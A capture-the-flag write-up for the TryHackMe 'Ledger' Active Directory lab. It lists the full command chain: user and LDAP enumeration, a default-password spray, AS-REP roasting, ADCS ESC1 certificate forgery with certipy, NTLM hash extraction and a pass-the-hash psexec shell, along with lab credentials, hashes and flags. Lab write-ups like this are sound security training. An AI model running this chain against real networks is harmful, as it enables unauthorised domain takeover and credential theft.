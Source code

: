 # 🧪 TryHackMe - Ledger

**Platform:** TryHackMe  
**IP Address:** 10.201.84.72  
**Difficulty:** Hard  

![proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/Other/THM/proofs/thm_ledger.png)

---

## 🧭 Overview

Ledger was an **Active Directory**-based machine that simulated a hardened corporate environment with ADCS (Active Directory Certificate Services).  
Key attack chain: **Enumeration → Default Password Spray → ADCS ESC1 abuse → Certipy → Hash extraction → Lateral Movement → DA compromise**.  

---

## 🔍 Enumeration

### Nmap

```bash
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full
```

- Dozens of ports open (classic DC): **LDAP, Kerberos, SMB, RDP, ADCS over HTTP/HTTPS**  
- Domain: `thm.local`  
- Host: `LABYRINTH`  

### User Enumeration

RID brute to pull valid users:

```bash
netexec smb $target -u '' -p '' --rid-brute | grep -i 'sidtypeuser' | awk '{print$6}' | cut -d '\' -f2 | tee userlist2.txt
```

Found **493 users**.  

LDAP enum leaked creds in **description field**:

```bash
netexec ldap $target -u '' -p '' --users
# SUSANNA_MCKNIGHT  -  Please change it: CHANGEME2023!
# IVY_WILLIS        -  Please change it: CHANGEME2023!
```

### Kerberos (AS-REP Roast)

```bash
impacket-GetNPUsers thm.local/ -dc-ip $target -usersfile userlist2.txt -outputfile hashes.txt
```

Dumped multiple AS-REP hashes, but **no crack with rockyou**.  

---

## 💥 Exploitation

### RDP Login (Password Spray)

Used the leaked default password across all users:

```bash
netexec rdp $target -u userlist2.txt -p 'CHANGEME2023!'
```

Valid logins:
- `SUSANNA_MCKNIGHT:CHANGEME2023!`
- `IVY_WILLIS:CHANGEME2023!`

Got RDP shell:

```bash
xfreerdp3 /v:$target /u:SUSANNA_MCKNIGHT /p:'CHANGEME2023!' /cert:ignore
```

**User flag:**  
`THM{ENUMERATION_IS_THE_KEY}`  

---

## 🔑 Privilege Escalation

### ADCS Enumeration

```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -dc-ip $target -vulnerable
```

- Found vulnerable **ESC1 template** (`ServerAuth`).  
- Allows requesting certs for arbitrary users with client authentication.  

### ESC1 Exploit (Administrator)

```bash
certipy-ad req   -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!'   -dc-ip $target -target 'labyrinth.thm.local'   -ca 'thm-LABYRINTH-CA' -template 'ServerAuth'   -upn 'Administrator@thm.local'
```

Generated `administrator.pfx`.  

Authenticate and dump hash:

```bash
certipy-ad auth -pfx 'administrator.pfx' -dc-ip $target
# NTLM: aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322
```

Account restrictions blocked login, so pivot was needed.  

### BloodHound Analysis

Dumped and ingested BloodHound data:

```bash
netexec ldap $target -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!' --bloodhound --collection All --dns-server $target
```

BloodHound identified **BRADLEY_ORTIZ** as viable escalation path.  

### ESC1 Exploit (BRADLEY_ORTIZ)

```bash
certipy-ad req   -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!'   -dc-ip $target -target 'labyrinth.thm.local'   -ca 'thm-LABYRINTH-CA' -template 'ServerAuth'   -upn 'BRADLEY_ORTIZ@thm.local'
```

Auth and hash retrieval:

```bash
certipy-ad auth -pfx 'bradley_ortiz.pfx' -dc-ip $target
# NTLM: aad3b435b51404eeaad3b435b51404ee:16ec31963c93240962b7e60fd97b495d
```

### DA Shell via PsExec

```bash
impacket-psexec bradley_ortiz@$target -hashes :16ec31963c93240962b7e60fd97b495d
```

Rooted the box!  

**Root flag:**  
`THM{THE_BYPASS_IS_CERTIFIED!}`  

---

## 📝 Lessons Learned

- Always check **LDAP description fields** for default or weak passwords.  
- **Password spraying + default creds** is still effective in AD environments.  
- ADCS **ESC1 template abuse** is a reliable path to escalation when Kerberos roasting fails.  
- BloodHound is invaluable when **Administrator** is restricted/disabled—pivot to other accounts with equivalent access.  

---

